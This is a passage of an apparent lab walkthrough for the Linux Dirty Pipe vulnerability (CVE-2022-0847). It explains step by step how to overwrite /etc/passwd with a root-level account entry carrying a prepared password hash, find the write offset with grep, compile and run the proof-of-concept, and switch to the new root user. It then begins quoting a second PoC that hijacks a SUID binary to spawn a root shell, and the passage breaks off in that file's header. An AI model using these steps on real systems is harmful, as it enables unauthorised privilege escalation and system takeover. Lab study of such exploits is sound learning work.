 Finally, insert your username and hash into this passwd entry template: USERNAME:HASH:0:0::/root:/bin/bash.

Your entry should look something like this:

````
nerdy:$6$THM$eRD0Ur0SZuwDLSwf9Lb2vyC2T6/PtQUA/B0Ssm6/jsiBtpSvc6QLjhFF0XNM8odgfkxMnC4oczGuvEomrVRfz0:0:0::/root:/bin/bash
`````

As we are overwriting existing entries in the password file, we also need to add a new line on at the end of our entry. This ensures that we avoid corrupting our entry with any remnants of the previous contents of the line.

Our final content should therefore look something like this (quotes included):
'nerdy:$6$THM$eRD0Ur0SZuwDLSwf9Lb2vyC2T6/PtQUA/B0Ssm6/jsiBtpSvc6QLjhFF0XNM8odgfkxMnC4oczGuvEomrVRfz0:0:0::/root:/bin/bash
'

We have our file (/etc/passwd) and our content (the passwd entry) — all we need now is the offset. The offset is where in the file the exploit should begin writing at — in other words, which part of the file gets overwritten.


The vulnerability won't allow us to append to the file, so we are going to have to pick an account and overwrite it. Realistically speaking, given the length of our passwd entry (hash inclusive), this will probably actually overwrite several accounts. Looking through the passwd file, the games account stands out as being a good candidate for a little-used account which we can afford to nuke for a few minutes. We can use grep with the -b switch to find the offset of games from the start of the file:

grep -b "games" /etc/passwd
189:games:x:5:60:games:/usr/games:/usr/sbin/nologin

189 becomes our offset to use

Now we are ready to explot fully;



gcc poc.c -o exploit

./exploit /etc/passwd <offset> 'USERNAME:HASH:0:0::/root:/bin/bash
> '

su {newuser}


![image](https://user-images.githubusercontent.com/64267672/158502627-ae47e87b-9a1d-4bc9-9876-d74c24e4a67a.png)

  
And root!!
  
Second POc;

  
````
//
// dirtypipez.c
//
// hacked up Dirty Pipe (CVE-2022-0847) PoC that hijacks a SUID binary to spawn
// a root shell. (and attempts to restore the damaged binary as well)
//
// Wow, Dirty CoW reloaded!
//
// -- blasty <peter@haxx.in> // 2022-03-07

/* SPDX-License-Identifier: GPL-2.0 */
/*
 * Copyright 2022 CM4all GmbH / IONOS SE
 *
 * author: Max Kellermann <max.kellermann@ionos.com>
 *
````